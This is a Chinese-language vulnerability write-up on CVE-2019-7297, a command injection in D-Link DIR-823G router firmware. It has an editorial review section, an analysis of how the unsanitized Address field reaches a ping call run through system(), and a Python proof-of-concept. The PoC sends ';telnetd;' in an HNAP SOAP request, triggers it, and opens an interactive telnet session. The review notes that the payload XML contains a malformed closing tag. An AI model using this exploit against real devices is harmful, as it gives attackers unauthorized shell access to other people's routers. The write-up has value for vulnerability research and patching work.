


# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：D-Link DIR823G
- 本文讨论：CVE-2019-7297 SetNetworkTomographySettings到GetNetworkTomographyResult Address
- 版本、权限与配置前提：≤1.02B03，先存参数再触发system，认证未说明
- 资料类型：二阶段HNAP命令注入分析；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- XML Number关闭标签写&lt;Number&gt;而非&lt;/Number&gt;，非良构请求
- apmib标识0x1b73重复，字段映射需图源核对
- 无实际输出/修复来源，Python2代码开telnet非无害检测

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 源码字段、HNAP权限与修复待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。



```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。



### poc

```
import requests
from pwn import *

IP='192.168.0.1'

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/SetNetworkTomographySettings"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/">\
      <Address>;telnetd;</Address>\
      <Number>4<Number>\
          <Size>4</Size>\
     </SetNetworkTomographySettings></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetNetworkTomographyResult"'
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/">\
     </GetNetworkTomographyResult></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```